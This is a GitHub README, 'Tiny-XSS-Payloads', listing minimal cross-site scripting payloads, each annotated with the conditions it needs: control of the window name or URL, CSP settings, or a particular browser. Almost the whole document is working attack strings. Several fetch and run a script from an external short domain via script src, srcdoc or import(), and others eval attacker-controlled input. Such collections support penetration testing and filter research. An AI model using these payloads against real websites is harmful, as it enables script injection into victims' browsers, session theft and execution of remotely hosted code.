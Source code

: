 # Tiny-XSS-Payloads
A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://tinyxss.terjanq.me>


## Current Payloads
```html
<!-- If you control the name, will work on Firefox in any context, will fail in chromium in DOM -->
<svg/onload=eval(name)>
```

```html
<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

```html
<!-- If you control the name, but unsafe-eval not enabled -->
<svg/onload=location=name>
```

```html
<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>
```

```html
<!-- If you control the name of the window -->
<iframe/onload=src=top.name>
```

```html
<!-- If you control the URL -->
<iframe/onload=eval(`'`+URL)>
```

```html
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>
```

```html
<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
```

```html
<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
```

```html
<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```

```html
<!-- If inline styles are allowed -->
<style/onload=eval(name)>
```

```html
<!-- If inline styles are allowed and the URL can be controlled -->
<style/onload=eval(`'`+URL)>
```

```html
<!-- If inline styles are blocked -->
<style/onerror=eval(name)>
```

```html
<!-- Uses external script as import, doesn't work in innerHTML unless Firefox -->
```

```html
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<svg/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import,  triggers if inline styles are allowed.
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<style/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<iframe/onload=import(/\\Ǌ.₨/)>
```

Deprecated:

```html
<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>
```

```html
<!-- If inline styles are allowed, Safari only -->
<style/onload=write(URL)>
```
